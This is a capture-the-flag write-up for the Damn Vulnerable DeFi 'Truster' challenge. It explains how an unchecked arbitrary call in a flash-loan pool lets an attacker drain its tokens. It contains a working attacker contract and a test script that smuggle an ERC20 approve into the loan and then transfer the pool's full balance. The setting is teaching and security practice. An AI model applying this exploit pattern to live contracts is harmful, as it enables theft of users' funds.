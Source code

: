 # Challange #3 - Truster

More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

The pool holds 1 million DVT tokens. You have nothing.

To pass this challenge, take all tokens out of the pool. If possible, in a single transaction.

## [TrusterLenderPool.sol:](/CTF%20-%20Damn%20Vulnerable/contracts/truster/TrusterLenderPool.sol)

```solidity
function flashLoan(
        uint256 borrowAmount,
        address borrower,
        address target,
        bytes calldata data
    )
        external
        nonReentrant
    {
        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

        damnValuableToken.transfer(borrower, borrowAmount);
        target.functionCall(data);

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }
```

## [Attacker Contract](/CTF%20-%20Damn%20Vulnerable/contracts/attacker-contracts/AttackerTruster.sol)

```solidity
import "../truster/TrusterLenderPool.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract AttackerTruster {
    TrusterLenderPool public trust; // Make the TrusterLenderPool contract public
    IERC20 public immutable damnValuableToken;

    constructor(address _trust, address tokenAddress) {
        trust = TrusterLenderPool(_trust);
        damnValuableToken = IERC20(tokenAddress);
    }

    function exploit(
        uint256 borrowAmount,
        address borrower,
        address target,
        bytes calldata data
    ) external {
        trust.flashLoan(borrowAmount, borrower, target, data);
        // after approving the flash loan, the exploit function will be called
        damnValuableToken.transferFrom(
            address(trust),
            msg.sender,
            1000000 ether
        );
    }
}
```

## [Exploit](/CTF%20-%20Damn%20Vulnerable/test/truster/truster.challenge.js)

```javascript
it("Exploit", async function () {
	const AttackerTrusterDeployer = await ethers.getContractFactory(
		"AttackerTruster",
		attacker
	);
	const AttackContract = await AttackerTrusterDeployer.deploy(
		this.pool.address,
		this.token.address
	);

	const amount = 0;
	const borrower = attacker.address;
	const target = this.token.address;

	// Create abi to approve the attacker to spend all tokens in the pool
	const abi = ["function approve(address spender, uint256 amount)"]; // copied from IERC20.sol
	const interface = new ethers.utils.Interface(abi);
	const data = interface.encodeFunctionData("approve", [
		AttackContract.address,
		TOKENS_IN_POOL,
	]);

	await AttackContract.exploit(amount, borrower, target, data);
});
```

## Explanation

The exploit is very similar to the previous one. The only difference is that we need to approve the attacker to spend all tokens in the pool.
